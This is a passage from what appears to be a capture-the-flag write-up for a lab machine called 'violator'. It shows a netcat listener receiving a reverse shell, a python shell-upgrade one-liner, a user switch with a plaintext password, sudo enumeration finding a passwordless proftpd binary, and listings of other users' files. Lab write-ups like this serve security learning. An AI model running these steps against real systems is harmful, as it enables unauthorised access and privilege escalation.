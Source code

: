```plaintext
root@kali:~/Scrivania/reports/violator# nc -nlvp 1234
listening on [any] 1234 ...
connect to [192.168.1.140] from (UNKNOWN) [192.168.1.141] 41839
Linux violator 3.19.0-25-generic #26~14.04.1-Ubuntu SMP Fri Jul 24 21:16:20 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 17:12:02 up  4:21,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@violator:/$ su dg
su dg
Password: policyoftruth

dg@violator:/$ sudo -l
sudo -l
Matching Defaults entries for dg on violator:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User dg may run the following commands on violator:
    (ALL) NOPASSWD: /home/dg/bd/sbin/proftpd

```

With sudo command I saw the proftpd's executable into /home/dg/bd/sbin folder but I decided to come back later on this folder. Navigating into another directories, look what I've just found new interesting files!

```plaintext
dg@violator:/home/dg$ ls -l bd
ls -l
total 32
drwxr-xr-x 2 root root 4096 Jun  6  2016 bin
drwxr-xr-x 2 root root 4096 Jun  6  2016 etc
drwxr-xr-x 3 root root 4096 Jun  6  2016 include
drwxr-xr-x 4 root root 4096 Jun  6  2016 lib
drwxr-xr-x 2 root root 4096 Jun  6  2016 libexec
drwxr-xr-x 2 root root 4096 Jun  6  2016 sbin
drwxr-xr-x 4 root root 4096 Jun  6  2016 share
drwxr-xr-x 2 root root 4096 May  1 17:13 var
dg@violator:/home$ ls -l mg
ls -l mg
total 4
-rw-rw-r-- 1 mg mg 112 Jun 12 09:28 faith_and_devotion
dg@violator:/home$ ls -l aw
ls -l aw
total 4
-rw-rw-r-- 1 aw aw 59 Jun 12 09:19 hint
dg@violator:/home$ ls -l af
ls -l af
total 20
drwxr-xr-x 2 af af  4096 Jun 11  2016 minarke-1.21
-rw-rw-r-- 1 af af 15576 Jun 11  2016 minarke-1.21.tar.bz2
```
